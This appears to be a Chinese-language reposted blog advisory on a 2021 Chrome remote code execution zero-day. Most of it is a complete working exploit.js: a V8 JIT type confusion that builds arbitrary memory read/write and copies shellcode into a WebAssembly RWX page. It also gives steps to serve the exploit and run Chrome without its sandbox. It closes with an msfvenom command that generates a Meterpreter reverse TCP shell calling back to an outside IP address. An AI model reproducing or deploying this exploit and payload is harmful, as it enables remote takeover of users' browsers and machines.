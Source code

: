# [Chrome 远程代码执行0Day漏洞(20210413)](https://www.cnblogs.com/ethtool/p/14652420.html)

2021年04月13日，360CERT监测发现`国外安全研究员`发布了`Chrome 远程代码执行 0Day`的POC详情.

该漏洞已验证.

# 漏洞级别

严重；`Google:Chrome`: <=89.0.4389.114

> 组件: Chrome
>
> 漏洞类型: 命令执行
>
> 影响: 服务器接管
>
> 简述: 攻击者利用此漏洞，可以构造一个恶意的web页面，当用户访问该页面时，会造成远程代码执行。
>
> 目前该漏洞已在最新版本Chrome上得到验证

# 漏洞修复建议：

### 通用修补建议

**目前Google只针对该漏洞发布了beta测试版Chrome（90.0.4430.70）修复**，Chrome正式版（89.0.4389.114）仍存在漏洞，请关注官方Chrome正式版更新，及时修补漏洞。

### 临时修补建议

强烈建议广大用户在SandBox模式下运行Chrome



# POC

https://github.com/r4j0x00/exploits/tree/master/chrome-patch-gap

将以下网页丢到WEB服务里，用待测的chrome访问即可触发。**但要注意，运行的chrome要在沙盒sandbox关闭的状态下才能利用成功！chrome安全考虑默认启动都是在沙盒中，因利用要诱导用户在no-sandbox下访问才能触发漏洞，所以利用又加了一个条件...**



**可以在chrom快捷方式属性增加--no-sandbox 也可以在命令行启用chrome 键入：chrome.exe --no-sandbox**

**![img](assets/1312861-20210413150837598-1268951416.png)**



exploit.html代码：

```html
<script src="exploit.js"></script>
```



[exploit.js](https://github.com/r4j0x00/exploits/blob/master/chrome-0day/exploit.js)代码：

```javascript
/*
BSD 2-Clause License
Copyright (c) 2021, rajvardhan agarwal
All rights reserved.
Redistribution and use in source and binary forms, with or without
modification, are permitted provided that the following conditions are met:
1. Redistributions of source code must retain the above copyright notice, this
   list of conditions and the following disclaimer.
2. Redistributions in binary form must reproduce the above copyright notice,
   this list of conditions and the following disclaimer in the documentation
   and/or other materials provided with the distribution.
THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS "AS IS"
AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE
IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE
DISCLAIMED. IN NO EVENT SHALL THE COPYRIGHT HOLDER OR CONTRIBUTORS BE LIABLE
FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL
DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR
SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER
CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY,
OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE
OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.
*/

var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11])
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;

var buf = new ArrayBuffer(8);
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);
let buf2 = new ArrayBuffer(0x150);

function ftoi(val) {
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n);
}

function itof(val) {
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}

const _arr = new Uint32Array([2**31]);

function foo(a) {
    var x = 1;
	x = (_arr[0] ^ 0) + 1;

	x = Math.abs(x);
	x -= 2147483647;
	x = Math.max(x, 0);

	x -= 1;
	if(x==-1) x = 0;

	var arr = new Array(x);
	arr.shift();
	var cor = [1.1, 1.2, 1.3];

	return [arr, cor];
}

for(var i=0;i<0x3000;++i)
    foo(true);

var x = foo(false);
var arr = x[0];
var cor = x[1];

const idx = 6;
arr[idx+10] = 0x4242;

function addrof(k) {
    arr[idx+1] = k;
    return ftoi(cor[0]) & 0xffffffffn;
}

function fakeobj(k) {
    cor[0] = itof(k);
    return arr[idx+1];
}

var float_array_map = ftoi(cor[3]);

var arr2 = [itof(float_array_map), 1.2, 2.3, 3.4];
var fake = fakeobj(addrof(arr2) + 0x20n);

function arbread(addr) {
    if (addr % 2n == 0) {
        addr += 1n;
    }
    arr2[1] = itof((2n << 32n) + addr - 8n);
    return (fake[0]);
}

function arbwrite(addr, val) {
    if (addr % 2n == 0) {
        addr += 1n;
    }
    arr2[1] = itof((2n << 32n) + addr - 8n);
    fake[0] = itof(BigInt(val));
}

function copy_shellcode(addr, shellcode) {
    let dataview = new DataView(buf2);
    let buf_addr = addrof(buf2);
    let backing_store_addr = buf_addr + 0x14n;
    arbwrite(backing_store_addr, addr);

    for (let i = 0; i < shellcode.length; i++) {
        dataview.setUint32(4*i, shellcode[i], true);
    }
}

var rwx_page_addr = ftoi(arbread(addrof(wasm_instance) + 0x68n));
console.log("[+] Address of rwx page: " + rwx_page_addr.toString(16));
var shellcode = [3833809148,12642544,1363214336,1364348993,3526445142,1384859749,1384859744,1384859672,1921730592,3071232080,827148874,3224455369,2086747308,1092627458,1091422657,3991060737,1213284690,2334151307,21511234,2290125776,1207959552,1735704709,1355809096,1142442123,1226850443,1457770497,1103757128,1216885899,827184641,3224455369,3384885676,3238084877,4051034168,608961356,3510191368,1146673269,1227112587,1097256961,1145572491,1226588299,2336346113,21530628,1096303056,1515806296,1497454657,2202556993,1379999980,1096343807,2336774745,4283951378,1214119935,442,0,2374846464,257,2335291969,3590293359,2729832635,2797224278,4288527765,3296938197,2080783400,3774578698,1203438965,1785688595,2302761216,1674969050,778267745,6649957];
copy_shellcode(rwx_page_addr, shellcode);
f();
```



可以搭建http服务,将`exploit.html`和`exploit.js`复制到web目录下

```shell
python3 -m http.server 
```





多次刷新网页，成功弹出计算器：

![image-20211114070021323](assets/image-20211114070021323.png)





后续可将shellcode换成msf所生成的shellcode,进行替换

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=175.24.115.4 lport=5555 -f csharp -o payload3.txt
```

